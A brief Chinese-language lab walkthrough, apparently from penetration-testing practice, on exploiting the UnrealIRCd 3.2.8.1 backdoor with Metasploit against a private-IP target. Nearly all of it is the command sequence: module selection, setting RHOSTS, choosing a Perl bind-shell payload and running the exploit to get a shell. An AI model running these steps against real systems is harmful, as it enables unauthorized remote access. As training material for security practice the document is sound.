



# 6667&66897_irc_unreal-rcd

使用msf

搜索模块脚本

> search rcd

选择模块脚本

> use exploit/unix/irc/unreal_ircd_3281_backdoor

查看参数

> options

添加目标靶机

> set RHOSTS 10.1.10.6

执行

> exploit

报错

> Exploit failed: A payload has not been selected

未选择有效载荷

查看payload

> show payloads

选择第一个payload

> set payload cmd/unix/bind_perl

执行

> exploit

拿到shell